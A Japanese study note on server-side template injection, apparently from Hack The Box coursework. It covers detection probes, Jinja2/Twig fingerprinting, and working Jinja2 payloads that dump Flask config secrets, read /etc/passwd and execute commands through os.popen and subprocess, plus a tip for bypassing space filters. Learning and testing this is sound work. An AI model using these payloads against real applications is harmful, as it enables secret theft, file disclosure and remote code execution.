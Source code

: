 ユーザーの入力がそのまま表示される時に発生しがち
SQLインジェクションと同じように、テンプレートエンジンで使われている特殊文字を使って、テスト文字列を使う
```sh
${{<%[%'"}}%\.
```

上を入力した時に、「500 Internal Server Error」が怒るときは、SSTIの脆弱性があるかもしれない



## テンプレートエンジンの特定
- エンジンによって、挙動に微妙な違いがあるため、エンジンを特定する必要がある
- ￼￼{{7*'7'}}￼￼のところの出力の分岐
	- Jinja2 : `7777777`
	- Twig : `49`
![The image is a flowchart showing different template injection payloads and their outcomes.](https://academy.hackthebox.com/storage/modules/145/ssti/diagram.png)

- テンプレートエンジンがわかったら、以下でペイロードを探すことができる
	- https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md
## Jinja2でのSSTI
- Jinjaは、PythonのWebフレームワーク（FlaskやDjangoなど）でよく使用されるテンプレートエンジン
- **Flask**を使用したWebアプリケーションを例に解説する
- ペイロードでは、Pythonアプリケーション内で（直接または間接的に）**すでにインポートされているライブラリ**を自由に利用できる
	- また、import文を使って**追加のライブラリをインポートする**ことも可能

### 情報漏洩
- SSTI脆弱性を使って、Webアプリケーションの内部情報（設定情報やソースコードなど）を取得できる
- 例えば、以下のSSTIペイロードを使用すると、アプリケーションの設定を取得できる
```sh
{{ config.items() }}
```

このペイロードにより、使用されている**シークレットキーを含む全設定情報**が表示されるため、さらなる攻撃の準備に利用できる
- また、アプリケーションのソースコードに関する情報も取得可能
- 以下のペイロードを使うと、Pythonの組み込み関数一覧がダンプされる
```jinja2
{{ self.__init__.__globals__.__builtins__ }}
```


### LFI
- Pythonの組み込み関数 open() を使えば、ローカルファイルを読み込める
- この関数を直接呼び出すのではなく、先ほど取得した __builtins__ 辞書から呼び出す必要がある
- たとえば、/etc/passwd ファイルを読み込むペイロードは以下の通り
```sh
{{ self.__init__.__globals__.__builtins__.open("/etc/passwd").read() }}
```


### RCE
- os ライブラリの system や popen 関数を利用できる
- ただし、このライブラリがWebアプリケーションで**まだインポートされていない**場合は、__import__ 関数を使ってインポートする必要がある
```sh
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}
```
SSTIでコマンド実行する際の空白に関する注意点
- SSTI経由でコマンドを含むURLを送信する場合、空白（スペース）をURLエンコード（%20）しただけではエラーになることがある。
- 特に `.popen('')` 内の文字列がそのまま実行されるようなケースで発生しやすい。
- 一方、空白をそのままテンプレート内に書いてもパースエラーになることがある。
- このような場合は、空白の代わりに {IFS}（Internal Field Separator） を使ってコマンドを構築することで回避できる。
	- 参考 : [[Web Server Side Attack#スペースフィルターのバイパス]]
- それか以下のペイロードを使えば、解決する
```sh
{{"".__class__.__mro__[1].__subclasses__()[157].__repr__.__globals__.get("__builtins__").get("__import__")("subprocess").check_output(['ls', '-lah'])}}
```